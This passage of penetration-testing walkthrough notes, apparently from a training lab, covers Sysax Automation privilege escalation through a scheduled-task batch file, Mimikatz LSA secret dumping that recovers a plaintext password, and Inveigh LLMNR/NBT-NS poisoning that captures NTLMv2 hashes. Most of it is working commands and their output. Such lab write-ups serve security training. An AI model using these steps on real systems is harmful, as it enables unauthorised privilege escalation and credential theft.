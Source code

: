 ### 🛠️ Sysax Automation Privilege Escalation
```cmd
# Vulnerable software discovery:
C:\Program Files (x86)\SysaxAutomation\

# Exploitation steps:
1. Create pwn.bat: "net localgroup administrators ilfserveradm /add"
2. Open sysaxschedscp.exe
3. Setup Scheduled/Triggered Tasks → Add task (Triggered)
4. Monitor folder: C:\Users\ilfserveradm\Documents
5. Run program: C:\Users\ilfserveradm\Documents\pwn.bat
6. Uncheck "Login as the following user" (runs as SYSTEM)
7. Create trigger file in monitored directory

# Result: ilfserveradm added to Administrators group
```

### 💎 Post-Exploitation Credential Harvesting
```bash
# Mimikatz execution (as local admin)
mimikatz.exe
privilege::debug
token::elevate
lsadump::secrets

# LSA Secrets discovered:
Secret: DefaultPassword
cur/text: DBAilfreight1!

# Registry query for username
Get-ItemProperty -Path 'HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\' -Name "DefaultUserName"
# Result: DefaultUserName : mssqladm

# Final credential pair:
mssqladm:DBAilfreight1!
```

## 🕷️ Network Credential Harvesting

### 🎣 Inveigh LLMNR/NBT-NS Poisoning
```powershell
# Inveigh execution (as local admin)
Import-Module .\Inveigh.ps1
Invoke-Inveigh -ConsoleOutput Y -FileOutput Y

# Configuration:
[+] Elevated Privilege Mode = Enabled
[+] Primary IP Address = 172.16.8.50
[+] LLMNR Spoofer = Enabled
[+] SMB Capture = Enabled
[+] HTTP Capture = Enabled

# Captured credentials:
[+] SMB(445) NTLMv2 captured for ACADEMY-AEN-DEV\mpalledorous from 172.16.8.20
# Hash format: NTLMv2 (suitable for offline cracking)
```
